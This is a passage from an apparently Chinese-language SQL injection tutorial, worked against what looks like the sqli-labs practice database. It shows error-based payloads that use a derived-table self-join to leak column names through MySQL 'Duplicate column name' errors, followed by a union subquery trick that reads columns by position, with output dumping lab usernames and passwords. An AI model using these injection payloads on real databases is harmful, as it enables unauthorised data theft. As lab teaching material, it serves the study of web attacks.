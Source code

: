 括号后面的 c 是括号里面子查询返回的表的别名, 不加的话会显示 `ERROR 1248 (42000): Every derived table must have its own alias`

放到注入点里面的几种形式

union 第一种

```sql
mysql> select * from emails where id=1;
+----+------------------+
| id | email_id         |
+----+------------------+
|  1 | Dumb@dhakkan.com |
+----+------------------+
1 row in set (0.00 sec)

mysql> select * from emails where id=1 union select * from (select * from users a join users b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from emails where id=1 union select * from (select * from users a join users b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
```

union 第二种, 需要知道字段数

```sql
mysql> select * from emails where id=1 union select 1,(select * from (select * from users a join users b)c);
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from emails where id=1 union select 1,(select * from (select * from users a join users b using(id))c);
ERROR 1060 (42S21): Duplicate column name 'username'
```

直接用 and 连接, 不使用 union

```sql
mysql> select * from emails where id=1 and (select * from (select * from users a join users b)c);
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from emails where id=1 and (select * from (select * from users a join users b using(id))c);
ERROR 1060 (42S21): Duplicate column name 'username'
```

因为是报错注入, 语句很灵活, 也可以塞进 updatexml extractvalue 里面, 不过利用思路都是差不多的

## 子查询

利用条件: union 未被过滤

payload 如下

```sql
select `3` from (select 1,2,3 union select * from users)c;
```

这种方法的原理也很简单, 首先通过 union 将查询结果连接

```sql
mysql> select 1,2,3 union select * from users;
+----+----------+------------+
| 1  | 2        | 3          |
+----+----------+------------+
|  1 | 2        | 3          |
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
```